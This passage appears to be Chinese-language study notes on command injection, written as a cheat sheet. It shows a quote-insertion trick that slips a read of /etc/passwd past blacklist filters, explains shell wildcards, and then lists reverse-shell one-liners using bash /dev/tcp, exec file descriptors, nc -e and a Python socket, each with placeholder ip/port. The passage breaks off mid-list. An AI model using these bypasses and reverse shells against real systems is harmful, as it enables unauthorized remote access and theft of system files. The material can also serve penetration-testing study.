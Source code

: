 可以看到，这样仍能执行
##### 黑名单绕过
###### 连接符绕过

**单引号‘’，双引号“”，反斜杠`**如：

```php
 /'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd
```
![[Pasted image 20231213152044.png]]
###### **常见的特殊**
![[Pasted image 20231213190512.png]]
|   |   |  |
|---|---|
|符号|含义|
|？|匹配单个字符如果匹配多个字符，就需要多个?连用|
|* |* 代表任意数量的字符|
|[ ]|代表一定有一个在括号内的字符(非任意字符)。例如 [abcd] 代表一定有一个字符， 可能是 a, b, c, d 这四个任何一个
||


![[Pasted image 20231213160250.png]]

##### 反弹shell

bash方式

```ruby
$ bash -c "sh >& /dev/tcp/your ip/port 0>&1"
```

exec方式

```cobol
$ exec 5<>/dev/tcp/ip/port
```

$ cat <&5 | while read line; do $line 2>&5 >&5; done

nc方式

```cobol
    本机运行:    nc -l -vv -p port    目标主机:    nc -e /bin/bash ip port
```

python方式

```rust
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'   
```

另一种：
